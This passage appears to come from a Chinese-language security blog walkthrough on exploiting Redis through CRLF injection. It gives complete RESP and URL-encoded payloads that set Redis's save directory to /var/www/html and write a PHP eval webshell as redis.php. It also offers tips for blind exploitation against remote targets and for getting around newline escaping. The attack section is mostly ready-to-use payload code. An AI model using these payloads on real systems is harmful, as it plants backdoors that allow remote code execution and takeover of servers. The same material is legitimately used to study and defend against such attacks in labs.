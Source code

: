 然后将该请求发往Redis, 从日志中可以看到命令执行成功，并且响应中返回了命令对应的内容：

![image-20241027111147213](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20241027201616467-b68fa.png)

接下来测试下常规的利用手法，写入webshell：

```
命令：config set dir /var/www/html
RESP协议：*4\r\n$6\r\nconfig\r\n$3\r\nset\r\n$3\r\ndir\r\n$13\r\n/var/www/html\r\n
CRLFpayload：%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$13%0d%0a/var/www/html%0d%0a


命令：set shell "\n\n\n<?php@eval($_POST['c']);?>\n\n\n" 
RESP协议：*3\r\n$3\r\nset\r\n$5\r\nshell\r\n$32\r\n\n\n\n<?php@eval($_POST['c']);?>\n\n\n\r\n
CRLFpayload：%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$5%0d%0ashell%0d%0a$32%0d%0a\n\n\n<%3fphp%40eval($_POST['c'])%3b%3f>\n\n\n%0d%0a
备注：记得将特殊字符进行urlencode处理


命令：config set dbfilename redis.php 
RESP协议：*4\r\n$6\r\nconfig\r\n$3\r\nset\r\n$10\r\ndbfilename\r\n$9\r\nredis.php\r\n
CRLFpayload：%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$9%0d%0aredis.php%0d%0a


命令：save
RESP协议：*1\r\n$4\r\nsave\r\n
CRLFpayload：%0d%0a*1%0d%0a$4%0d%0asave%0d%0a
```

monitor 日志如下：

![image-20241027114430949](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20241027201616467-32de7.png)

这里有两个需要注意的点：

1. 有些命令结果并不会直接在响应结果中出现，但是通过`Wireshark`记录可看到命令执行成功。但是由于是本地测试环境，所以能抓到本地的数据包，可以看到相应的结果。如果是远程环境，就没办法确认命令是否成功，几乎是属于盲打的状态，所以建议先在本地测试后再去远程。

> 盲打缺陷挺多的, 比如：
> 
> 1. 没办法确认目录是否存在
> 2. 没办法确认目录是否拥有写入权限
> 
> 比如后面写定时任务，由于是docker环境，不一定有cron环境，所以不太能确定是否写入成功。

![image-20241027114529527](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20241027201616467-59d6f.png)

2. 在`Redis` 的 `monitor`日志中发现:在写入`shell`时 ` \n` 被转义了，这里的解决办法是使用`%0a` 将 ` \n`  替换就可以了。

![image-20241027114405888](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20241027201616467-a5b06.png)

![image-20241027115047221](https://particles.oss-cn-beijing.aliyuncs.com/blog_img/20241027201616467-41097.png)
